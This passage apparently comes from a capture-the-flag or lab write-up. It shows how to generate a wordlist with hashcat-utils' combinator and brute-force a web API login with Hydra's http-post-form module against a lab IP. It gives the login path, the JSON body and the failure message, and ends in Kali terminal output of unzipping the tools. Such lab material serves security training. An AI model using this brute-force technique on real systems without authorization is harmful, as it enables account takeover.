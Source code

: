 ./combinator.bin colors.txt numbers.txt > wordlist.txt

This will then give you a wordlist to use for Hydra.  
  

**Attack the API**

The HTTP POST request that we captured earlier tells us enough about the API that we can use Hydra to attack it.  
The API is actually designed to either accept Form data, or JSON data. The frontend sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module. To use this, we need:

-   Request Body - JSON
    
    {"username":"admin","password":"admin"}
    
-   Request Path -
    
    /api/user/login
    
-   Error message for incorrect logins -
    
    "Invalid Username Or Password"
    

The command for this is (replace the parts with angle brackets, you will need to escape special characters):

	hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>

Answer the questions below

```
┌──(witty㉿kali)-[~/Downloads]
└─$ unzip wordlists.zip 
Archive:  wordlists.zip
 extracting: colors.txt              
 extracting: numbers.txt

┌──(witty㉿kali)-[~/Downloads]
└─$ unzip hashcat-utils-1.9.zip 
Archive:  hashcat-utils-1.9.zip
5f4f35d94b0229c41e61b2fd369c016b71ff9641
   creating: hashcat-utils-1.9/
 extracting: hashcat-utils-1.9/.gitignore  
  inflating: hashcat-utils-1.9/CHANGES  
  inflating: hashcat-utils-1.9/LICENSE  
  inflating: hashcat-utils-1.9/README.md  
   creating: hashcat-utils-1.9/bin/
 extracting: hashcat-utils-1.9/bin/.hold  
   creating: hashcat-utils-1.9/src/
  inflating: hashcat-utils-1.9/src/Makefile  
  inflating: hashcat-utils-1.9/src/cap2hccapx.c  
  inflating: hashcat-utils-1.9/src/cleanup-rules.c  
  inflating: hashcat-utils-1.9/src/combinator.c  
  inflating: hashcat-utils-1.9/src/combinator3.c  
  inflating: hashcat-utils-1.9/src/combipow.c  
  inflating: hashcat-utils-1.9/src/cpu_rules.c  
  inflating: hashcat-utils-1.9/src/cpu_rules.h  
  inflating: hashcat-utils-1.9/src/ct3_to_ntlm.c  
  inflating: hashcat-utils-1.9/src/cutb.c  
  inflating: hashcat-utils-1.9/src/deskey_to_ntlm.pl  
  inflating: hashcat-utils-1.9/src/expander.c  
  inflating: hashcat-utils-1.9/src/gate.c  
  inflating: hashcat-utils-1.9/src/generate-rules.c  
  inflating: hashcat-utils-1.9/src/hcstat2gen.c  
  inflating: hashcat-utils-1.9/src/hcstatgen.c  
  inflating: hashcat-utils-1.9/src/keyspace.c  
  inflating: hashcat-utils-1.9/src/len.c  
```